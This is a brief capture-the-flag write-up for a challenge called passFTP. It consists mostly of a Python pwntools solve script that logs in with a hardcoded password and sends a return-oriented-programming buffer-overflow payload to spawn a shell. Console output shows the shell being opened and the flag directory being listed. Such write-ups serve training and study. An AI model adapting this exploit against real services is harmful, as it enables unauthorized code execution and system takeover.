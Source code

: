 ## 2.5.3_passftp

Relatively standard rop.

```python
io = start()

def login(user, password):
    io.recvuntil(b"Username: ")
    io.send(user)
    io.recvuntil(b"Password: ")
    io.send(password)

def put(filename, content):
    assert not b"\x0c" in content
    assert not b"\x0b" in content
    assert not b"\x0a" in content
    
    io.recvuntil(b"passFTP> ")
    io.sendline(b"put " + filename)

    io.recvuntil(b"Uploading file")
    io.recvuntil(b"Enter Data:")

    io.sendline(content)

login(b"oper\n", b"418f2a707d998f324b0bdc0297f7b987")

# 0x0000000000404200 : pop rax ; ret
# 0x000000000041afd7 : or dword ptr [rax], eax ; ret
POP_RAX = 0x404200
OR = 0x41afd7

PAYLOAD = b""
PAYLOAD += b"a" * 0x218
PAYLOAD += p64(POP_RAX)
PAYLOAD += p64(exe.symbols['account_level'])
PAYLOAD += p64(OR)
PAYLOAD += p64(exe.symbols['shell'])

put(b"a", PAYLOAD)

io.interactive()
```

```sh
$ python3 solve.py
[*] '/Users/jole/ctf/ct/2_oppdrag/5_department_of_security/passFTP_new'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 10.2.215.184 on port 1024: Done
[*] Switching to interactive mode
 
Error opening file
Spawning shell
$ cd ../..
$ ls
FLAGG
files
passFTP
passwd.txt
```